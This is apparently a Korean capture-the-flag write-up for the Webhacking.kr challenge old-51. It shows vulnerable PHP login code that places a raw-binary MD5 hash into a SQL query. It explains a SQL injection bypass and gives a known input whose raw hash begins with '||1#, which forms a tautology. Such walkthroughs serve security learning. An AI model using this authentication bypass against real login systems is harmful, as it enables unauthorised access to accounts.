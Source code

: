 ```yaml
---
title: ["[Webhacking.kr] old-51 (sqli - 25)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
```

`md5()`함수가 의심스럽다.  
일반적인 `md5()`함수는 `fasle`가 default로, 32자의 16진수 문자열을 출력한다.  

하지만, `true` 옵션을 주면 16바이트의 raw binary를 출력한다.  
즉, MD5의 결과가 sqli 구문인 값을 찾으면 된다.  

```sql
select id from chall51 where id='admin' and pw='1'||1#'
```
위와 같은 쿼리를 만들어야 하므로,  
MD5 해시값이 `'||1#`으로 시작하는 input을 찾으면 된다.  

해시를 역산하는 것은 연산학적으로 굉장히 어렵지만,  
분명히 누군가는 이를 계산해 놓았을 것이다.  
[SQL Injection with Raw MD5 Hashes](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)  

`129581926211651571912466741651878684928`
